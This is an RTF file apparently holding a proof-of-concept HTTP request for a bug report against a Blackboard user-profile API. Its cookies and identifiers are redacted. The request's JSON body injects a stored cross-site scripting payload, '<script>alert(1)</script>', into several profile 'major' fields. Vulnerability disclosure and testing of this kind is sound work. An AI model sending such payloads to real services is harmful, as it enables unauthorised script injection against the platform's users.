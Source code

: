 {\rtf1\ansi\ansicpg1252\cocoartf1561\cocoasubrtf200
{\fonttbl\f0\fswiss\fcharset0 Helvetica;}
{\colortbl;\red255\green255\blue255;\red255\green255\blue255;\red255\green255\blue255;\red251\green2\blue7;
}
{\*\expandedcolortbl;;\csgray\c100000;\cssrgb\c100000\c100000\c100000;\cssrgb\c100000\c14913\c0;
}
\margl1440\margr1440\vieww28600\viewh16580\viewkind0
\pard\tx720\tx1440\tx2160\tx2880\tx3600\tx4320\tx5040\tx5760\tx6480\tx7200\tx7920\tx8640\pardirnatural\partightenfactor0

\f0\fs24 \cf0 PUT /adms/user-profile/\cb2 xxxx\cb1  HTTP/1.1\
Host: api.cloudbb.blackboard.com\
Connection: close\
Content-Length: 3293\
Accept: application/json, text/javascript, */*; q=0.01\
X-Requested-With: XMLHttpRequest\
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36\
Content-Type: application/json\
Origin: https://api.cloudbb.blackboard.com\
Sec-Fetch-Site: same-origin\
Sec-Fetch-Mode: cors\
Referer: https://api.cloudbb.blackboard.com/myedu/profile/?setLng=en_US&target_id=\cb3 xxxx\cb1 &X-Bb-Expires=300&X-Bb-MyEduId=\cb3 xxxx\cb1 &X-Bb-Signature=\cb3 xxxx\cb1 &X-Bb-Timestamp=1581621927\
Accept-Encoding: gzip, deflate\
Accept-Language: en-US,en;q=0.9,it;q=0.8\
Cookie: _ga=xxxx; __cfduid=xxxxxx; BbTest=; i18next=en-US; tc_ptidexpiry=xxxx; tc_ptid=xxxx; __utmc=xxxx; coveo_visitorId=xxxx;; tc_q=; BbSession=xxxx;5; __utma=xxxx;; __utmz=xxxx;.utmcsr=fordham.blackboard.com|utmccn=(referral)|utmcmd=referral|utmcct=/webapps/discussionboard/do/message; __utmv=xxxx;.|1=user_id=xxxx;=1^4=school_id=xxxx;=1^5=grad_date=xxxx;=1; __utmb=xxxx;\
\
\{"myedu":\{"username\'94:\'94xxxx\'94,\'94full_image_url":"/images/avatar-default.png","thumb_image_url":"/images/avatar-default.png","total_points":null,"viewed":\{"user_course":null,"social":null,"welcome":null,"manage_tiles":null,"public_profile_announcement":null,"interstitial":null\},"tiles":[\{"OID":null,"data":\{"school":\{"school_id":xxxx;,"name":"xxxx;","color":"505050","state":"xxxx;","city":"xxxx;"\},"end_year":xxxx;,"graduation_date":"xxxx;","attendance\'94:\'94xxxx\'94\},\'94label":"School","ordinal":1,"type":"SCHOOL"\},\cb4 \{"OID":null,"data":\{"major":"<script>alert(1)</script>","majors":["<script>alert(1)</script>",""],"gpa":"","majors_string":"<script>alert(1)</script>","majors_0":"<script>alert(1)</script>","majors_1":null,"save_major_0":"<script>alert(1)</script>","save_major_1":"","save_major":"Other","degree_label":"<script>alert(1)</script>"\},"label":"Major","ordinal":2,"type":"MAJOR"\}}